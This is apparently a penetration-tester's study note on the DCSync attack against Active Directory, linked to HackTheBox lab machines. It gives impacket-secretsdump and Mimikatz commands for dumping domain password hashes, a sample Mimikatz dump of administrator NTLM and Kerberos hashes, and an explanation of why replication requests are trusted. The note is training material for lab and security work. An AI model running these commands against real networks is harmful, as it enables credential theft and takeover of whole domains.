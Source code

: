 ### Impacket-secretsdump
```bash
impacket-secretsdump htb.local/mrlky:'Football#7'@10.10.10.103
```
Examples:
[[Sizzle#^fa8bab]]
### Mimikatz
Upload the mimikatz executable to the machine first, then execute:
```bash
privilege::debug
token::elevate
lsadump::dcsync /all /csv
```

### Mimikatz Administrator
```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'corp.com' will be the domain
[DC] 'DC01.corp.com' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

\*\* SAM ACCOUNT \*\*

SAM Username         : Administrator
User Principal Name  : Administrator@corp.com
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 05/02/2018 19.33.10
Object Security ID   : S-1-5-21-1602875587-2787523311-2599479668-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: e2b475c11da2a0748290d87aa966c327
  ntlm- 0: e2b475c11da2a0748290d87aa966c327
  lm  - 0: 913b84377b5cb6d210ca519826e7b5f5

Supplemental Credentials:
\* Primary:NTLM-Strong-NTOWF \*
  Random Value : f62e88f00dff79bc79f8bad31b3ffa7d

\* Primary:Kerberos-Newer-Keys \*
  Default Salt : CORP.COMAdministrator
  Default Iterations : 4096
  Credentials
  aes256_hmac (4096): 4c6300b908619dc7a0788da81ae5903c2c97c5160d0d9bed85cfd5af02dabf01
  aes128_hmac (4096): 85b66d5482fc19858dadd07f1d9b818a
  des_cbc_md5 (4096): 021c6df8bf07834a

\* Primary:Kerberos \*
  Default Salt : CORP.COMAdministrator
  Credentials
    des_cbc_md5       : 021c6df8bf07834a

\* Packages \*
  NTLM-Strong-NTOWF

\* Primary:WDigest \*
  01  4ec8821bb09675db670e66998d2161bf
  02  3c9be2ff39c36efd2f84b63aa656d09a
  03  2cf1734936287692601b7e36fc01e2d7
  04  4ec8821bb09675db670e66998d2161bf
  05  3c9be2ff39c36efd2f84b63aa656d09a
...
```
Examples:
[[Sauna#^dd4d7f]]
Finally you can use the `Hash NTLM` to login with [[Pass The Hash]] technique
# Explanation
Another way to achieve persistence in an Active Directory infrastructure is to steal the password hashes for all administrative users in the domain.

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user. We could also steal a copy of the NTDS.dit database file, which is a copy of all Active Directory accounts stored on the hard drive, similar to the SAM database used for local accounts.

While these methods might work fine, they leave an access trail and may require us to upload tools. An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation.

In production environments, domains typically have more than one domain controller to provide redundancy. The Directory Replication Service Remote Protocol uses _replication_ to synchronize these redundant domain controllers. A domain controller may request an update for a specific object, like an account, with the _IDL_DRSGetNCChanges API.

Luckily for us, the domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user who is a member of the Domain Admins group, it will succeed.

In the next example, we will log in to the Windows 10 client as jeff_admin to simulate a compromise of a domain administrator account and perform a replication.

We'll open Mimikatz and start the replication using lsadump::dcsync with the /user option to indicate the target user to sync, in this case the built-in domain administrator account Administrator, as shown below.

The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption.

Using the technique above, we can request a replication update with a domain controller and obtain the password hashes of every account in Active Directory without ever logging in to the domain controller.